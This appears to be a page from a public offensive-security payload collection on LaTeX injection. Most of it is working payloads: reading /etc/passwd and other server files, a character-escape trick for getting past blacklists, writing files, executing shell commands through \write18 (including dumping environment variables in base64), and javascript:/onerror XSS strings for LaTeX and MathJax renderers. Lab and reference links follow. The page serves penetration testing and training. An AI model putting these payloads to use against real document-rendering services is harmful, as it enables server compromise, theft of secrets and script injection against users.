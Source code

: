 # LaTeX Injection

> LaTeX Injection is a type of injection attack where malicious content is injected into LaTeX documents. LaTeX is widely used for document preparation and typesetting, particularly in academia, for producing high-quality scientific and mathematical documents. Due to its powerful scripting capabilities, LaTeX can be exploited by attackers to execute arbitrary commands if proper safeguards are not in place. 


## Summary

* [File Manipulation](#file-manipulation)
    * [Read File](#read-file)
    * [Write File](#write-file)
* [Command Execution](#command-execution)
* [Cross Site Scripting](#cross-site-scripting)
* [Labs](#labs)
* [References](#references)


## File Manipulation

### Read File

Attackers can read the content of sensitive files on the server.

Read file and interpret the LaTeX code in it:

```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```

Read single lined file:

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file:

```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Read text file, **without** interpreting the content, it will only paste raw file content:

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

If injection point is past document header (`\usepackage` cannot be used), some control 
characters can be deactivated in order to use `\input` on file containing `$`, `#`, 
`_`, `&`, null bytes, ... (eg. perl scripts).

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

To bypass a blacklist try to replace one character with it's unicode hex value. 
- ^^41 represents a capital A
- ^^7e represents a tilde (~) note that the ‘e’ must be lower case

```tex
\lstin^^70utlisting{/etc/passwd}
```

### Write File

Write single lined file:

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```


## Command Execution

The output of the command will be redirected to stdout, therefore you need to use a temp file to get it.

```tex
\immediate\write18{id > output}
\input{output}
```

If you get any LaTex error, consider using base64 to get the result without bad characters (or use `\verbatiminput`):

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```


## Cross Site Scripting

From [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130) 

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

In [mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/unicode.html)

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```


## Labs

* [Root Me - LaTeX - Input](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)
* [Root Me - LaTeX - Command Execution](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)


## References

- [Hacking with LaTeX - Sebastian Neef - March 10, 2016](https://0day.work/hacking-with-latex/)
- [Latex to RCE, Private Bug Bounty Program - Yasho - July 6, 2018](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
- [Pwning coworkers thanks to LaTeX - scumjr - November 28, 2016](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)